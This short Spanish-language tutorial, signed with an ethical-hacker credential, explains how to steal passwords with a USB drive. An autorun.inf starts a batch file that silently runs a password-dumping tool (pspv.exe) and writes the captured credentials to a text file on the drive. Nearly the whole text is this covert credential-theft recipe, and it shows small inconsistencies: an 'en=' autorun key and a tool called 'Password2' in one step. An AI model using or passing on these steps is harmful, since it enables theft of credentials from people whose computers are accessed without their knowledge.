

# Robar passwords utilizando USB
Robar passwords utilizando USB
1. Necesitaremos una hacking tool
2. Copiar los archivos en la USB
3. Crear un autorun.inf
	[autorun]
	en=launch.bat
4. El contenido de launch.bat
	start pspv.exe /stext pspv.txt
5. Insertar la USB y la autorun se ejecutara
6. Password2 es ejecutado en segundo plano y los password serán almacenados en un archivo .txt en la USB
C|EH  Julio Iglesias Pérez